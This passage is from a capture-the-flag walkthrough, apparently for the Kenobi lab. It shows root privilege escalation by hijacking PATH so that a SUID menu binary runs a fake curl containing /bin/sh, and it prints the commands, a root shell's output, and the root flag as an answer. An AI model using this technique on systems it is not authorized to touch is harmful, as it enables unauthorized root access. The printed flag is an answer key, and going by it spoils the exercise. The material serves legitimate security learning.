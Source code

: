 **Sample Output:**

```
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

**Ans:** 3

**Explanation:**  
The menu presents three options, which could execute system commands. Since the binary is SUID, these commands might run with elevated privileges, making it a candidate for exploitation.

### Q3. Exploit Path Variable Manipulation

#### Action

The `strings` command reveals the use of commands like `curl`, `uname -r`, and `ifconfig` without full paths, indicating the possibility of PATH variable manipulation. We can exploit this by creating a fake `curl` command that executes a shell:

```bash
cd /tmp/
echo "/bin/sh" > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

**Sample Output:**

```
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm)
```

**Explanation:**  
By creating a fake `curl` command and placing it in a directory that is prioritized in the PATH variable, we trick the menu binary into executing our shell instead of the real `curl`. Since the menu binary runs with root privileges, this gives us a root shell.

### Q4. Retrieve the Root Flag

#### Action

With root access, retrieve the root flag located at `/root/root.txt`:

```bash
cat /root/root.txt
```

**Sample Output:**

```
177b3cd8562289f37382721c28381f02
```

**Ans:** 177b3cd8562289f37382721c28381f02

**Explanation:**  
By successfully exploiting the PATH manipulation, we gain root access and can read the root flag, confirming our privilege escalation.
